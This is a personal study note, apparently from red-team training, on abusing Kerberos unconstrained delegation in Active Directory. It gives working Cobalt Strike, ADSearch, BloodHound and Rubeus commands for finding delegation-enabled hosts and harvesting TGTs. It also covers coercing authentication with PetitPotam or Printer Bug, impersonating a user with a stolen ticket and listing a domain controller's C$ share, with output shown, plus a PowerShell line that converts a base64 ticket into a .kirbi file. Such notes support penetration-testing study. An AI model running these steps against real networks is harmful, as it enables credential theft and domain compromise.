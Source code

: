 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Unconstrained Delegation]]  
___

## Description:  

Delegation allows a user or a service to act on behalf of another user to another service.

If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

In CobaltStrike:

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

In Bloodhound:

```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```

Look for machines we have compromised.

If we compromise SRV-1 and wait or engineer a privileged user to interact with it, we can steal their cached TGT. Interaction can be any Kerberos service, so something as simple as `dir \\srv-1\c$` is enough.

Rubeus has a `monitor` command (requires elevation) that will continuously look for and extract new TGTs. On SRV-1 (use `/ticket:rto.kirbi` to export ticket locally):

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

[*] Action: TGT Monitoring
[*] Target user     : nlamb
[*] Monitoring every 10 seconds for new TGTs

```

You can wait for authentication or force is with [[PetitPotam]] or [[Printer Bug]]

Write the base64 decoded string to a `.kirbi` file on your attacking machine. Create a sacrificial logon session, pass the TGT into it and access the domain controller.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 16:49:25   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/21/2021 11:20:15   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     02/17/2021 18:50:37   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/09/2021 10:26:16   pagefile.sys
```





To stop Rubeus, use Cobalt Strike `jobs` and `jobkill` commands.

can use this to convert base64 ticket to a useable ticket:

```
[IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\sql$.kirbi", [Convert]::FromBase64String("<base64 blob>"))
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:42 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
